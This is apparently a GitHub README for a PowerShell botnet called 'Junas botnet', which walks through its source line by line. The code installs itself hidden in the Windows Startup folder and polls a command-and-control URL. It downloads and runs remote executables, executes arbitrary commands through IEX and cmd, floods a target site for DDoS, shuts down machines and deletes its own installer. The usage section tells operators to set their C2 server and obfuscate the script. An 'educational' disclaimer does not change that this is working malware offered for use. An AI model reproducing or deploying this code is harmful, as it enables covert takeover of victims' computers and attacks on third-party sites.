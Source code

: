 ## Junas botnet
<br>#### Legal #
<br>This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br>
<br>*Copyright (c) 2021 Pokesi All Rights Reserved.*
<br>### How it works **step by step**
<br>Syntax used:
<br>`Line of code/variable` - Explanation
<br>... `Line of code` - Explanation [not required]
<br>...... `Line of code` - Explanation [only used for branches]
<br>... `}` - Ends the branch
<br>
<br>`$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br>`$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br>`$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br>... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br>... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br>... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br>... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br>... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br>... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br>... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br>... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br>...... `exit()` - Exits PowerShell
<br>... `}` - Ends the branch
<br>... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br>...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br>...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br>...... `try {` - PowerShell try
<br>......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br>......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br>......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br>......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br>...... `}` - Ends the branch
<br>... `}` - Ends the branch
<br>... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br>...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br>...... `IEX($cmd3);` - Runs the string with IEX.
<br>... `}` - Ends the branch
<br>... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br>...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br>...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br>... `}` - Ends the branch
<br>... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br>...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br>...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br>... `}` - Ends the branch
<br>... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br>...... `Stop-Computer;` - Shutdown machine
<br>... `}` - Ends the branch
<br>... `else {` - If nothing else works, do this.
<br>...... `exit;` - Stops the script
<br>... `}` - Ends the branch
<br>... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br>`"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br>`Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
<br>### Usage
<br>Change https://yoursite.com/server.txt to your command and control server.
<br>You may want to obfuscate this or add custom commands.
